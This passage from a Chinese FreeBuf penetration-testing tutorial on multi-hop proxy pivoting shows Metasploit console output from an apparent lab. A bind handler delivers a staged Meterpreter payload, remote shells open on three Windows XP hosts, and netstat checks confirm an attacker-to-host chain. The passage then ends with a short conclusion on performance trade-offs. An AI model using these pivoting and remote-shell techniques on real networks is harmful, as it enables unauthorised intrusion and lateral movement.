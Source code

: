   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.1.1.131       no        The target address
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > run 
[*] Started bind handler
[*] Starting the payload handler...
[*] Sending stage (770048 bytes)
[*] Meterpreter session 5 opened (192.168.101.105-_1_-192.168.101.107:0 -> 10.1.1.131:4444) at 2015-01-11 13:45:53 +0800
meterpreter > background 
[*] Backgrounding session 5...
msf exploit(handler) > sessions -l
Active sessions
===============
  Id  Type                   Information                        Connection
  --  ----                   -----------                        ----------
  2   meterpreter x86/win32  XP-TEST1Administrator @ XP-TEST1  192.168.101.105:444 -> 192.168.101.107:51205 (10.1.1.128)
  4   meterpreter x86/win32  XP-TEST2Administrator @ XP-TEST2  192.168.101.105-192.168.101.107:0 -> 10.1.1.129:4444 (10.1.1.129)
  5   meterpreter x86/win32  XP-TEST3Administrator @ XP-TEST3  192.168.101.105-_1_-192.168.101.107:0 -> 10.1.1.131:4444 (10.1.1.131)
在xp-test3查看端口连接
C:Documents and SettingsAdministrator>netstat -an | find "4444"
  TCP    10.1.1.131:4444        10.1.1.129:1032        ESTABLISHED
在xp-test2查看4444端口
C:Documents and SettingsAdministrator>netstat -an | find "4444"
  TCP    10.1.1.129:1032        10.1.1.131:4444        ESTABLISHED
  TCP    10.1.1.129:4444        10.1.1.128:1054        ESTABLISHED
说明已经实现三级连接，即attacker->xp-test1->xp-test2->xp-test3</pre>
0×03 总结

最后,代理级数越多，带宽损耗和稳定性就会下降。渗透过程中根据实际情况自由灵活的选择和使用代理方式才能实现事半工倍的效果。

&nbsp;

版权属于: FreeBuf
原文地址: http://www.freebuf.com/tools/56432.html
